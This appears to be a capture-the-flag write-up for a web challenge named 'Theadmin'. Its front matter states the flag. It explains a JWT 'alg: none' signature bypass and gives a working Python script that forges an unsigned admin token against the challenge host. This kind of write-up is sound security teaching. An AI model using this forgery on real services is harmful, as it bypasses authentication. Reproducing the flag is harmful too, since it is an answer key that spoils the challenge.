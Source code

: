 ```yaml
---
title: Theadmin
categories: "Web Exploitation"
tags: 
draft: true
completedDuringEvent: true
submitted: true
flags: flag: QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}
---
```

## Scenario

> The Professor has left a vulnerable authentication system. Can you exploit it and gain admin not just using admin? Sometimes the simplest loopholes can lead to the biggest breakthroughs. Its simple but **none** of you could figure out.

## Solution

You need to send a POST request to the `https://<url>/auth` endpoint with the username `admin`. The server will respond with a JSON object containing a token. This token is a JSON Web Token (JWT) that is base64 encoded and consists of three parts separated by a dot (`.`): the header, the payload, and the signature. You should create a new header with the algorithm set to `none` and the type set to `JWT`. Then, decode the payload from the token and create a new payload. After that, encode the new header and the new payload separately. Finally, send a GET request to the `https://<url>/access` endpoint with the new header and the new payload.

Here is the Python script to exploit the vulnerability:

```py
import requests
import base64

auth_url = "https://questcon-theadmin.chals.io/auth"
access_url = "https://questcon-theadmin.chals.io/access"

response = requests.post(auth_url, json={"username": "admin"})
response_header = b'{"alg": "none", "typ": "JWT"}'
response_payload = base64.b64decode(response.json()["token"].split(".")[1] + "==")

headers = {"Authorization": f"Bearer {base64.b64encode(response_header).decode().rstrip('=')}.{base64.b64encode(response_payload).decode().rstrip('=')}."}
response = requests.get(access_url, headers=headers)
print(response.text)
```
